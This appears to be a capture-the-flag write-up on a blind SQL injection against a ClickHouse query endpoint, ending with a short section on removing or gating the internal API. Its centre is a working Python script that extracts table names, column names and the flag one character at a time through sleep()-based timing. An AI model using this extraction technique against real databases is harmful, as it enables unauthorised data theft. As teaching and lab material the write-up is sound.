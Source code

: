 # sqli101 - part 3

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQueryInBlind(query)
```

## Exploitation
We can run whatever query we are interested in, but we do not see the result of our query.  
Our goal will be to guess / bruteforce the data one character at a time. To detect our guess is right we will leverage the `sleep(seconds)` function available in ClickHouse to increase the query duration.

The bruteforce part can be harmonized in a method, leading to a small Python script.  
Note: We could also play with the LIMIT/OFFSET to list multiple tables and columns.
```python
import requests
import string

def brute(column_name, table, where_cond = ''):
  where_clause = 'WHERE ' + where_cond if where_cond else ''

  value = ''
  found = True
  while found:
    found = False
    for c in (string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}$!?"):
      query = f"SELECT if(startsWith({column_name}, '{value + c}'), sleep(0.1), 1) FROM {table} {where_clause} LIMIT 1 OFFSET 0"
      response = requests.post('http://localhost:80/internal/test_query_validity', json={'query': query})

      if response.elapsed.total_seconds() >= 0.1:
        value += c
        found = True
        break

  return value

table = brute('name', 'system.tables', "database = 'default'")
print(f"Table found: {table}")

column = brute('name', 'system.columns', f"database = 'default' and table = '{table}'")
print(f"Column found: {column}")

flag = brute(column, f"default.{table}")
print(f"Flag: {flag}")
```

## Fix
Internal API must never be available openly in prod.  
Finding weird URL names is not a fix.

The quickest fix is to delete the code.  
But if we want to keep the "feature", it should be behind a login page where only internal users can connect to.
